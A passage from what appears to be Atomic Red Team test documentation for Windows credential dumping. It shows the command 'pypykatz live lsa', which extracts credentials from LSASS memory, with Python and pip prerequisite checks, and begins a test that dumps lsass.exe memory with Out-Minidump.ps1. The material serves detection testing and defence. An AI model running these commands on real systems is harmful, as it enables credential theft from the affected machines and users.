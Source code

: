 
```cmd
pypykatz live lsa
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
pip install pypykatz
```




<br/>
<br/>

## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1
The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:SYSTEMROOT\System32\lsass_*.dmp.
